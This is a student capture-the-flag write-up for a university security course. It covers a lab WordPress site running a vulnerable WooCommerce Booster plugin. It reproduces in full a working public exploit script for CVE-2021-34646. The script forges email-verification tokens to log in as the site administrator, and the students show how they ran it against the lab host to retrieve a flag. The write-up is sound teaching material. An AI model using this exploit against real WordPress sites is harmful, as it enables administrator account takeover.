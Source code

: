 # CTF Week 4

## Submitted Flags

- Challenge 1: flag{CVE-2021-34646}
- Challenge 2: flag{please don't bother me}

## Exploit context and approach

Through navigation of the website provided, we were able to gather this information and context:

### Information gathered

- Wordpress version: 5.8.1
- Wordpress plugin: WooCommerce @ 5.7.1 and WooCommerce Booster Plugin @ 5.4.3
- Users: Found `admin` and `Orval Sanford`

**Vulnerability chosen:** Authentication Bypass
**CVE:** CVE-2021-34646, with CVSS Score: 9.8
**Exploit Database entry:** https://www.exploit-db.com/exploits/50299

### Process:

```py
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


# We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
for i in range(3): 
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
            
```

```bash
# saved the python script as 50299.py
# found admin id from http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ #image 1

python 50299.py http://ctf-fsi.fe.up.pt:5001 1
```

The user ID was found analysing the Raw Data from http://ctf-fsi.fe.up.pt:5001/wp-json
![picture 2](images/79fcfe33d7bc952a8bf9d9cbfd4e62fd5e27ef1b3da3f72b9a48b763f795dea7.png)  
and then going further

![picture 3](images/ca6348687bb36cddfc7534aa1589199f60e09dc43d66e49a839b5f136c490e1f.png)  


The exploit script requires the `url` and `userID` to be executed which are both known from the recognition phase. The userID 1 was chosen because it typically represents the admin one.

Executing the script will provide multiple entries for email verification, and one of them should provide us authentication to the website.

![picture 1](images/88c3fb6225f3bdbdd6cf6c9cfbb0a177cc51e5c95c3248a88660bb2dc36fd703.png)

![picture 2](images/c5dd2c000365c1250fca62ef2b09aad35486028cbea642c368035ad9f71529c0.png)  

Now that we're logged in if we visit http://ctf-fsi.fe.up.pt:5001/wp-admin/post.php?post=11&action=edit, we found on the posts tab a message containing a message with some sensitive information, where we did find our **Flag**.

![picture 3](images/4e60cd62018dd4d42282d738da8157e030422553d8997770fa673271cc4ab9ef.png)  

<br>

# Group 7, 03/10/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt